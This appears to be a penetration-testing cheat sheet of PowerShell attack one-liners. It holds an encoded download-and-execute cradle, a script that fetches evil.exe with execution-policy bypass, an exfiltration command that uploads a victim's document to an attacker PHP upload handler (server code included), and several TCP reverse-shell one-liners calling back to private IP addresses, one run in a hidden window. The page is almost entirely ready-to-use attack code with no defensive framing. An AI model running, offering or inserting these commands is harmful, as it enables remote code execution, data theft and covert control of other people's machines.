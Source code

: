 ```powershell
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

## wget.ps1

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Exfiltrate

Victim:

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

Server:

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

---

# Shell

## Reverse shell (one-liner)

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```
